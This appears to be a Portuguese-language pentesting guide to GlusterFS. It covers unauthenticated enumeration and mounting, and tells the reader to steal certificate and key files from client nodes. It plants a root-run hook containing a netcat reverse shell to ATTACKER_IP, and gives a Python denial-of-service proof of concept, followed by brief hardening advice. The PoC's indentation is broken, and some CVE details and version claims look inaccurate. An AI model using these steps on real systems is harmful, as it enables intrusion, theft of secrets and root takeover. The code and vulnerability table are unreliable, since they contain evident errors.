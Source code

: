# 24007-24008-24009-49152 - Pentesting GlusterFS

{{#include ../banners/hacktricks-training.md}}

## Informações Básicas

**GlusterFS** é um **sistema de arquivos distribuído** que combina armazenamento de vários servidores em um **espaço de nomes unificado**. O daemon de gerenciamento (`glusterd`) escuta por padrão na porta **24007/TCP** e instrui os bricks do plano de dados que começam em **49152/TCP** (uma porta por brick, incrementando). Versões anteriores a 9.x usavam **24008–24009/TCP** para transporte de bricks, então você ainda encontrará essas portas em clusters legados.
```
PORT      STATE  SERVICE        VERSION
24007/tcp open   glusterd       GlusterFS (RPC)
49152/tcp open   gluster-brick  SSL (TLS optional)
```
> Dica: 24007 responde a chamadas RPC mesmo quando os nós apenas de armazenamento **não** exportam nenhum volume; portanto, o serviço é um alvo de pivô confiável dentro de grandes infraestruturas.

## Enumeração

Instale as utilidades do cliente na sua máquina de ataque:
```bash
sudo apt install -y glusterfs-cli glusterfs-client   # Debian/Ubuntu
```
1. **Descoberta de pares e saúde**
```bash
# List peers (works without authentication in default setups)
gluster --remote-host 10.10.11.131 peer status
```
2. **Reconhecimento de volume**
```bash
# Retrieve the list of all volumes and their configuration
gluster --remote-host 10.10.11.131 volume info all
```
3. **Montar sem privilégios**
```bash
sudo mount -t glusterfs 10.10.11.131:/<vol_name> /mnt/gluster
```
Se a montagem falhar, verifique `/var/log/glusterfs/<vol_name>-<uid>.log` no lado do cliente. Problemas comuns são:

* Aplicação de TLS (`option transport.socket.ssl on`)
* Controle de acesso baseado em endereço (`option auth.allow <cidr>`)

### Solução de problemas de certificado

Roube os seguintes arquivos de qualquer nó cliente autorizado e coloque-os em `/etc/ssl/` (ou no diretório mostrado no log de erro):
```
/etc/ssl/glusterfs.pem
/etc/ssl/glusterfs.key
/etc/ssl/glusterfs.ca
```
---

## Vulnerabilidades Conhecidas (2022-2025)

| CVE | Versões afetadas | Impacto | Notas |
|-----|-------------------|--------|-------|
| **CVE-2022-48340** | 10.0–10.4, 11.0 | Uso após liberação em `dht_setxattr_mds_cbk` acessível através da rede | **DoS** remoto e provável RCE. Corrigido em 10.4.1 / 11.1. |
| **CVE-2023-26253** | < 11.0 | Leitura fora dos limites no manipulador de notificação FUSE | Queda remota via operações de FS manipuladas; PoC público disponível. |
| **CVE-2023-3775** | < 10.5 / 11.1 | Validação de permissão incorreta ao montar `gluster_shared_storage` | Permite que qualquer cliente não autenticado monte o volume de admin – leva a **priv-esc** explicado abaixo. |

> Sempre verifique `gluster --version` **em cada nó**; clusters heterogêneos são comuns após atualizações parciais.

### Explorando `gluster_shared_storage` (Escalação de Privilégios)

Mesmo em versões recentes, muitos administradores deixam o volume especial `gluster_shared_storage` legível por todos, pois isso simplifica a geo-replicação. O volume contém modelos de cronjob que são executados com **root** em cada nó.
```bash
# 1. Mount admin volume anonymously
mkdir /tmp/gss && sudo mount -t glusterfs 10.10.11.131:/gluster_shared_storage /tmp/gss

# 2. Drop malicious script that gets synchronised cluster-wide
cat <<'EOF' > /tmp/gss/hooks/1/start/post/test.sh
#!/bin/bash
nc -e /bin/bash ATTACKER_IP 4444 &
EOF
chmod +x /tmp/gss/hooks/1/start/post/test.sh

# 3. Wait until glusterd distributes the hook and executes it as root
```
Se `hooks/1/` não estiver presente, procure por `/ss_bricks/` – o caminho exato pode variar com a versão principal.

### Prova de Conceito de Negação de Serviço (CVE-2023-26253)
```python
#!/usr/bin/env python3
# Minimal reproducer: sends malformed NOTIFY_REPLY XDR frame to 24007
import socket, xdrlib, struct
p = xdrlib.Packer(); p.pack_uint(0xdeadbeef)
with socket.create_connection(("10.10.11.131",24007)) as s:
s.send(struct.pack("!L", len(p.get_buffer())|0x80000000))
s.send(p.get_buffer())
```
Executar o script faz com que `glusterfsd` < 11.0 falhe.

---

## Fortalecimento & Detecção

* **Atualizar** – a LTS atual é 11.1 (Julho de 2025). Todos os CVEs acima estão corrigidos.
* Ative **TLS** para cada brick:

```bash
gluster volume set <vol> transport.socket.ssl on
gluster volume set <vol> transport.socket.ssl-cert /etc/ssl/glusterfs.pem
```
* Restringir clientes com listas CIDR:

```bash
gluster volume set <vol> auth.allow 10.0.0.0/24
```
* Expor a porta de gerenciamento 24007 apenas em uma **VLAN privada** ou através de túneis SSH.
* Monitorar logs: `tail -f /var/log/glusterfs/glusterd.log` e configurar o recurso **audit-log** (`volume set <vol> features.audit-log on`).

---

## Referências

* [GlusterFS security advisories](https://docs.gluster.org/en/latest/release-notes/#security)
* [CVE-2023-26253 PoC – github.com/tinynetwork/gluster-notify-crash](https://github.com/tinynetwork/gluster-notify-crash)
{{#include ../banners/hacktricks-training.md}}
